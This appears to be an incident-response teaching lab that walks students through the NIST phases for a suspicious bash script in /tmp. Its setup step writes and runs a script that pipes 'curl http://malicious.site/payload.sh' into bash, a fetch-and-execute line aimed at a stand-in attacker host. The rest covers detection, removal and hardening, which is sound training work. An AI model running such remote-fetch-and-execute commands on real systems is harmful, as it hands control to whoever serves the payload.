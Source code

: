 # **Day#12: Incident Response Basics – Suspicious Bash Script Execution**

---

## 🎯 **Objective:**  
The objective of this lab is to help students understand the **core steps of incident response** by investigating a **suspicious bash script execution** on a Linux system. Students will learn how to detect, analyze, and respond to a basic script-based intrusion.

---

## 📘 **What is Incident Response?**

**Incident Response (IR)** is the process of detecting and managing a cybersecurity incident to minimize impact and restore normal operations. This lab introduces a basic Linux scenario where an attacker’s script is executed through user error or misconfiguration.

---

## 🔁 **Incident Response Process (NIST SP 800-61 Rev. 2)**

| **Phase**                         | **Description**                                                                 |
|----------------------------------|---------------------------------------------------------------------------------|
| **1. Preparation**               | Ensure logging is enabled, tools are installed, and the system is ready.        |
| **2. Detection and Analysis**    | Identify suspicious activity using logs, running processes, and file checks.    |
| **3. Containment, Eradication, and Recovery** | Isolate the threat, remove the script, and secure the system.                    |
| **4. Post-Incident Activity**    | Document the incident and implement prevention steps.                          |

---

## ⚠️ **Scenario: Suspicious Script Found in /tmp**

Your monitoring system flagged a suspicious file in `/tmp`. Upon inspection, it's a bash script (`payload.sh`) that connects to an unknown IP. You are tasked with investigating this incident.

---

## 🛠️ **Lab Setup**

### **System Requirements:**
- Ubuntu 20.04/22.04 or Kali Linux
- Terminal access with sudo privileges

### **Simulate the Incident:**

```bash
echo -e '#!/bin/bash\ncurl http://malicious.site/payload.sh | bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```
Execute the script (mimicking a compromised action):

```
bash /tmp/payload.sh
```

## 🧪 Step-by-Step Investigation

### 1. Preparation
Ensure auditd, syslog, or basic logging is enabled.

- Install curl, lsof, ps, and grep (usually pre-installed).

### 2. Detection and Analysis
- Check running processes:
```
ps aux | grep curl
```
- Search for suspicious files:
```
find /tmp -name "*.sh"
```
- Review .bash_history for executed commands:
```
cat ~/.bash_history | grep payload.sh
```
- Check cron entries (to verify no persistence):
```
crontab -l
grep -r "payload.sh" /etc/cron*
```
### 3. Containment, Eradication, and Recovery
- Kill any related processes:
```
pkill curl
```
- Remove the malicious script:
```
rm -f /tmp/payload.sh
```
- Clear the crontab if persistence was found:
```
crontab -e
```
- Restart services if needed and log out inactive sessions.
### 4. Post-Incident Activity
- Document:
 -  What triggered the alert?
 -  What was the script doing?
 - Which user executed it?

- Recommendations:
 - Enable file integrity monitoring (e.g., AIDE).
 - Restrict /tmp execution using mount options (noexec).
 - Educate users about unknown script execution.

## Lab Checklist
✅ Simulate Script	Create and execute a suspicious bash script
✅ Investigate Logs	Use commands to analyze the event
✅ Kill and Delete	Contain and remove the malicious file
✅ Document Findings	Note IPs, users, and recommendations

## 📸 Submission
Submit screenshots of:
- The malicious script content
- Process list showing the script or curl
- .bash_history showing the command
- Script deleted from /tmp

